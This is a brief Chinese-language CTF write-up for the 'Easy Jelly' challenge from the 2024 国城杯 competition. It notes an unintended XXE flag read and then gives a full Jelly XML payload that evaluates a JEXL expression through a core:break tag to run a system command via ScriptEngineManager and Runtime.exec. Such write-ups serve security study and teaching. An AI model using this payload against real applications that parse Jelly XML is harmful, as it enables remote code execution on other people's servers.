


# 2024-国城杯-Easy Jelly

##

有个非预期解，直接能xxe秒了，没做过滤直接读下flag就行。这里说下预期的，直接能调Jexl表达式执行命令，但是这里有过滤。



翻下官方文档，[https://commons.apache.org/proper/commons-jelly/tags.html](https://commons.apache.org/proper/commons-jelly/tags.html "https://commons.apache.org/proper/commons-jelly/tags.html")。挺多能执行jexl表达式的，下面这五个应该都行，去除下被过滤的还剩好几个，可以都试试有的可能有限制比如when这种：

core:expr-value，core:if-test	，core:set-value，core:when-test，core:break-test，core:whitespace

```java
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
    <j:getStatic var="test"
className="org.apache.commons.jelly.servlet.JellyServlet" field="RESPONSE"/>
    <j:break test="${test.toString().getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec(&quot; open -a Calculator&quot;)')}"></j:break>
</j:jelly>
```


